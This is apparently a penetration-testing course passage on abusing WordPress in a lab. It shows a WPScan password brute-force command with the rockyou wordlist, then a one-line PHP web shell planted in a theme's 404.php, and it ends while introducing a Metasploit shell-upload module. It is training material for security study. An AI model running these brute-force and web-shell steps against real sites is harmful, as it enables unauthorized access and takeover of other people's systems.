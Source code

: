 There are several ways to abuse the built-in functionality of wordpress.

## Login bruteforcing

WPScan can be used to brute force usernames and passwords. The wp-login method will attempt to brute force the standard WordPress login page, while xmlrpc uses the WordPress API.

  
```
mylesnieman@htb[/htb]`$ sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local  


[+] URL: http://blog.inlanefreight.local/ [10.129.42.195] [+] Started: Wed Aug 25 11:56:23 2021  <SNIP>`

```
## Code Execution
With administrative access to WordPress, we can modify the PHP source code to execute system commands. Log in to WordPress with the credentials for the `john` user, which will redirect us to the admin panel. Click on `Appearance` on the side panel and select Theme Editor. This page will let us edit the PHP source code directly. An inactive theme can be selected to avoid corrupting the primary theme. We already know that the active theme is Transport Gravity. An alternate theme such as Twenty Nineteen can be chosen instead.

Click on `Select` after selecting the theme, and we can edit an uncommon page such as `404.php` to add a web shell.

Code: php

```php
system($_GET[0]);
```


The code above should let us execute commands via the GET parameter `0`. We add this single line to the file just below the comments to avoid too much modification of the contents.  

![](https://academy.hackthebox.com/storage/modules/113/theme_editor.png)

Click on `Update File` at the bottom to save. We know that WordPress themes are located at `/wp-content/themes/<theme name>`. We can interact with the web shell via the browser or using `cURL`. As always, we can then utilize this access to gain an interactive reverse shell and begin exploring the target.

The [wp_admin_shell_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module from Metasploit can be used to upload a shell and execute it automatically.

The module uploads a malicious plugin and then uses it to execute a PHP Meterpreter shell. We first need to set the necessary options.